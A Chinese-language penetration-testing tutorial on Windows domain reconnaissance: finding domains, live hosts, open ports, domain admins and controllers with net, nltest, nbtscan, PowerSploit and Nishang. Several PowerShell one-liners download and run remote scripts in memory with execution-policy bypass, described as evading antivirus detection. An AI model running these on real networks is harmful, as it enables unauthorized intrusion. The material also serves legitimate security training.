

# 域信息搜集

Author: H3rmesk1t

Data: 2022.04.11

# 判断是否存在域
获得本机相关信息之后, 就要判断当前内网中是否存在域. 如果当前内网存在域, 则需要判断所控主机是否在域内.

## 使用 ipconfig 命令
使用`ipconfig`命令可查看网关`IP`地址、`DNS`的`IP`地址、域名、本机是否和`DNS`服务器处于同一网段等信息. 然后通过反向解析查询命令`nslookup`来解析域名的`IP`地址, 用解析得到的`IP`地址进行对比, 判断`DC`和`DNS`服务是否在同一台服务器上.

```sh
ipconfig /all
nslookup xxx
```

<div align=center></div>

## 查看系统详细信息
显示项的"域"即域名, "登录服务器"即域控制器, 若"域"为`WORKGROUP`则表示当前机器不在域内.

```sh
systeminfo
```

<div align=center></div>

## 查询当前登录域及登录用户信息
显示项的"工作站域`DNS`名称"即域名(若为`WORKGROUP`则表示不在域中), "登录域"用于表示当前登录的用户是域用户还是本地用户.

```sh
net config workstation
```

<div align=center></div>

## 判断主域

```sh
net time /domain
```

上述命令用于判断主域(域服务器通常会同时作为时间服务器使用), 执行后通常会有如下三种情况:
 - 存在域, 但当前用户不是域用户.
 - 存在域, 且当前用户是域用户.
 - 当前网络环境为工作组, 不存在域.

例如下图情况即为存在域但当前用户并不是域用户:

<div align=center></div>

# 探测域内存活主机
探测域内存活主机是内网渗透测试中不可或缺的一个环节, 可在白天和晚上分别进行探测, 以对比分析存活主机和对应的`IP`地址. 在进行域内存活主机探测的时候, 有几个注意点:
 - 尽量避免触发域内的一些防病毒软件的告警和拦截.
 - 在非授权情况下, 避免使用工具进行暴力扫描.
 - 尽量避免在目标机子上使用图形化工具.
 - 尽量使用系统自带的工具进行探测, 如`powershell`脚本.

## 利用 NetBIOS 探测内网
`NetBIOS`是局域网程序使用的一种应用程序编程接口(API), 为程序提供了请求低级别服务的统一的命令集, 为局域网提供了网络及其它特殊服务. 几乎所有的局域网都是在`NetBIOS`协议的基础上工作的. `NetBIOS`也是计算机的标识名, 用于局域网中计算机的互相访问. `NetBIOS`的工作流程就是正常的机器名解析查询应答过程. 

`nbtscan`是一个命令行工具, 用于扫描本地或远程`TCP/IP`网络上的开放`NetBIOS`名称服务器. 其有`Windows`版本和`Linux`版本, 体积很小, 且不需要安装特殊的库或`DLL`就能使用

使用方法: 将`nbtscan`上传到内网目标主机, 然后直接在指定目标`IP`段进行扫描即可.

显示的结果第一列为`IP`地址, 第二列为机器名和所在域的名称, 最后一列是及其所开启的服务的列表, 具体含义如下表所示:

|Token|含义|
|:----:|:----:|
|SHARING|该机器中有运行文件和打印共享服务(但不一定有内容共享)|
|DC|该机器可能是域控制器|
|U=USER|该机器有登录名为`USER`的用户(不太准确)|
|IIS|该机器可能安装了`IIS`服务器|
|EXCHANGE|该机器可能安装了微软的`EXCHANGE`|
|NOTES|该机器可能安装了`IBM`的`LOTUS NOTES`(电子邮件客户端)|
|?|没有识别出该机器的`NETBIOS`资源|


## 利用 ICMP 协议快速探测内网
利用`ICMP`协议探测内网主要思想是依次对内网中的每个`IP`地址执行`ping`命令, 从而快速找出内网中存活的主机. 在渗透测试中, 可以使用如下命令循环探测内网`C`段:

```sh
for /L %I in (1,1,254) DO @ping -w 1 -n 1 192.168.1.%I | findstr "TTL="
```

也可以使用`VBS`脚本进行探测, 不同场景改下`IP`段即可, 扫描结果默认保存在`C:\Windows\Temp\Result.txt`中:

```powershell
strSubNet = "192.168.1."
Set objFSO= CreateObject("Scripting.FileSystemObject")
Set objTS = objfso.CreateTextFile("C:\Windows\Temp\Result.txt")
For i = 1 To 254
strComputer = strSubNet & i
blnResult = Ping(strComputer)
If blnResult = True Then
objTS.WriteLine strComputer & " is alived ! :) "
End If
Next
objTS.Close
WScript.Echo "All Ping Scan , All Done ! :) "
Function Ping(strComputer)
Set objWMIService = GetObject("winmgmts:\\.\root\cimv2")
Set colItems = objWMIService.ExecQuery("Select * From Win32_PingStatus Where Address='" & strComputer & "'")
For Each objItem In colItems
Select case objItem.StatusCode
Case 0
Ping = True
Case Else
Ping = False
End select
Exit For
Next
End Function
```

## 利用 ARP 探测内网
 - arp-scan
 - Empire-arpscan

`Empire`中内置了`arpscan`模块, 用于在局域网内发送`ARP`数据包、收集活跃主机的`IP`地址和`MAC`地址信息. 在`Empire`中输入命令如下命令即可使用`arpscan`模块: `usemodule powershell/situational_awareness/network/arpscan`.

 - Nishang-Invoke-ARPScan.ps1

使用`Nishang`中的`Invoke-ARPScan.ps1`脚本, 可以将脚本上传到目标主机运行, 也可以直接远程加载脚本、自定义掩码和扫描范围, 命令如下:

```powershell
# 远程加载
powershell.exe -nop -exec bypass -c "IEX (New-Object Net.WebClient).DownloadString(' http://192.168.1.1/Invoke-ARPScan.ps1');Invoke-ARPScan -CIDR 192.168.1.0/20" >> c:\windows\temp\log.txt

# 本地运行
powershell.exe -exec bypass -Command "& {Import-Module C:\windows\temp\Invoke-ARPScan.ps1; Invoke-ARPScan -CIDR 192.168.1.0/24}" >> C:\windows\temp\log.txt

# 无条件运行(不下载到本地硬盘而是在内存中运行, 不触发防护软件的检测)
powershell.exe -nop -exec bypass -c "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Recon/Invoke-Portscan.ps1');Invoke-Portscan -Hosts 192.168.1.0/24 -T 4 -ports '445,1433,8080,3389,80' -oA c:\windows\temp\res.txt"
```

## 利用 TCP/UDP 端口扫描探测内网
`ScanLine`是一个同时支持`TCP`和`UDP`端口扫描的体积小的端口扫描工具, 可以在所有版本的`Windows`上使用.

```sh
scanline -h -t 22,80-89,110,389,445,3389,1099,1433,2049,6379,7001,8080,1521,3306,3389,5432 -u 53,161,137,139 -O c:\windows\temp\sl_res.txt -p 192.168.1.1-254 /b
```

# 扫描域内端口
通过查询目标主机的端口开放信息, 不仅可以了解目标所开放的服务, 还可以找出其开放服务的漏洞、分析目标网络的拓扑结构等, 具体需要关注以下几点:
 - 端口的`Banner`信息.
 - 端口上运行的服务.
 - 常见服务的默认端口号.

在内网渗透中, 通常使用`Metasploit`内置的端口扫描或者通过上传端口扫描工具或者根据服务器环境自定义扫描脚本来进行扫描. 在授权的情况下, 可以使用`Nmap`和`Masscan`等工具进行扫描.


## 使用 telnet 命令进行扫描
`Telnet`协议是`TCP/IP`协议族中的一员, 是`Internet`远程登录服务的标准协议和主要方式. 它为用户提供了在本地计算机上完成远程主机工作的能力. 在终端使用者的电脑上使用`telnet`程序, 用它连接到服务器. 终端使用者可以在`telnet`程序中输入命令, 这些命令会在服务器上运行, 就像直接在服务器的控制台上输入一样, 可以在本地就能控制服务器. 要开始一个`telnet`会话, 必须输入用户名和密码来登录服务器, `Telnet`是常用的远程控制`Web`服务器的方法. 如果只是想快速探测某台主机的某个常规高危端口是否开放, 使用`telnet`命令是最方便的.

## S 扫描器
`S`扫描器是较老的一款快速端口扫描工具, 支持大网段扫描, 适用于`Windows Server 2003`及以下版本的系统, `S`扫描器的扫描结果默认保存在其目录下的`result.txt`文件中, 推荐使用`TCP`扫描, 命令如下:

```sh
S.exe TCP 192.168.1.1 192.168.1.254 445,3389,1433,7001,1099,8080,80,22,23,21,25,110,3306,5432,1521,6379,2049,111 256 /Banner /save
```

## Metasploit 端口扫描
`Metasploit`不仅提供了多种端口扫描技术, 还提供了与其他扫描工具的接口. 使用`search portscan`命令即可搜索出相关模块.

<div align=center></div>

## PowerSploit 的 Invoke-Portscan.ps1 脚本
推荐使用无文件的形式来进行扫描, [脚本链接](https://github.com/PowerShellMafia/PowerSploit/blob/d943001a7defb5e0d1657085a77a0e78609be58f/Recon/Invoke-Portscan.ps1).

```sh
powershell.exe -nop -exec bypass -c "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Recon/Invoke-Portscan.ps1');Invoke-Portscan -Hosts 192.168.1.0/24 -T 4 -ports '445,1433,8080,3389,80' -oA c:\windows\temp\res.txt"
```

## Nishang 的 Invoke-PortScan 模块
`Invoke-PortScan`作为`Nishang`的端口扫描模块, 主要用于主机发现、解析主机名、扫描端口等. [项目地址](https://github.com/samratashok/nishang). 可以输入`Get-Help Invoke-PortScan -full`命令查看使用教程, 使用的时候需要先将模块先导入到当前`powershell`会话中. 几个参数如下:
 - StartAddress: 范围扫描起始地址.
 - EndAddress: 范围扫描结束地址.
 - ScanPort: 进行端口扫描.
 - Port: 指定端口扫描, 默认扫描常见服务端口.
 - Timeout: 设置超时时间.

```powershell
Import-Module .\nishang.psm1
Invoke-PortScan -StartAddress 192.168.1.1 -EndAddress 192.168.1.10 -ResolveHost
```

## 端口 Banner 信息
通过端口扫描发现存在的端口后, 可以使用客户端连接工具或者`nc`来获取服务端的`Banner`信息, 通过`Banner`信息识别出特定服务后, 可以在漏洞库中查找对应`CVE`编号的`POC`、`EXP`, 再进行进一步的渗透测试.

常见端口及说明:

<div align=center></div>

<div align=center></div>

<div align=center></div>

# 域内信息搜集
确定了当前内网拥有的域, 并且所控制的主机在域内, 就能进行域内一些基础信息的收集了. 本小节列出的查询命令本质上都是通过`LDAP`协议到域控制器上进行查询的, 因此在查询时是需要进行权限认证的. 此时, 只有域用户才拥有权限查询, 本地用户是无法运行本小节的查询命令的, 当然`System`权限用户除外. 在域中, 除普通用户外, 所有的机器都有一个机器用户, 其用户名为机器名加上`$`. `System`权限用户对应的就是域里的机器用户, 所以`System`权限用户可以运行需要权限认证的查询命令.

## 查询域

```sh
net view /domain
```

<div align=center></div>

## 查询域内所有主机
如下命令可以通过查询得到的主机名对主机角色进行初步判断, 比如`dev`可能是开发服务器, `web`、`app`等可能是`Web`服务器, `NAS`可能是存储服务器, `fileserver`可能是文件服务器等.

```sh
net view /domain:H3RMESK1T
```

<div align=center></div>

## 查询域内所有用户组列表

```sh
net group /domain
```

<div align=center></div>

系统自带的常见用户身份如下:
 - Domain Admins: 域管理员.
 - Domain Computers: 域内机器.
 - Domain Controllers: 域控制器.
 - Domain Guests: 域访客，权限较低.
 - Domain Users: 域用户.
 - Enterprise Admins: 企业系统管理员用户.

在默认情况下, `Domain Admins`和`Enterprise Admins`对域内所有域控制器具有完全控制权限.

## 查询所有域成员计算机列表

```sh
net group "domain computers" /domain
```

<div align=center></div>

## 获取域密码信息
如下命令可以获取域密码策略、密码长度、错误锁定等信息.

```sh
net accounts /domain
```

<div align=center></div>

## 获取域信任信息

```sh
nltest /domain_trusts
```

<div align=center></div>

# 查找域控制器

## 查看域控制器的机器名

```sh
nltest /DCLIST:h3rmesk1t
```

<div align=center></div>

## 查看域控制器的主机名

```sh
Nslookup -type=SRV _ldap._tcp
```

<div align=center></div>

## 查看当前时间
通常情况下, 时间服务器为主域控制器.

```sh
net time /domain
```

<div align=center></div>

## 查看域控制器组

```sh
net group "Domain Controllers" /domain

# Windows Server 
netdom query pdc
```

<div align=center></div>

# 域内用户和管理员信息
## 查询所有域用户列表
### 向域控制器进行查询
执行如下命令, 向域控制器`DC`进行查询, 可以看到域中存在四个用户, 其中`krbtgt`用户不仅可以创建票据授权服务(TGS), 还可以实现多种域内权限持久化方法.

```sh
net user /domain
```

<div align=center></div>

### 获取域内用户的详细信息
执行如下命令, 可以获取域内用户的详细信息. 常见参数包括用户名、描述信息、`SID`、域名、状态等.

```sh
wmic useraccount get /all
```

<div align=center></div>

### 查看存在的用户
`dsquery`是`AD`的命令, 只能在`AD`上使用.

```sh
dsquery user
```

<div align=center></div>

### 查询本地管理员组用户
执行后看到本地管理员组存在两个用户和一个组, `Domain Admins`组中的用户默认为域内机器的本地管理员用户. 在实际应用中, 为了方便管理, 会有域用户被设置为域机器的本地管理员用户.

```sh
net localgroup administrators
```

<div align=center></div>

## 查询域管理用户组
### 查询域管理用户

```sh
net group "domain admins" /domain
```

<div align=center></div>

### 查询域管理用户组

```sh
net group "Enterprise Admins" /domain
```

<div align=center></div>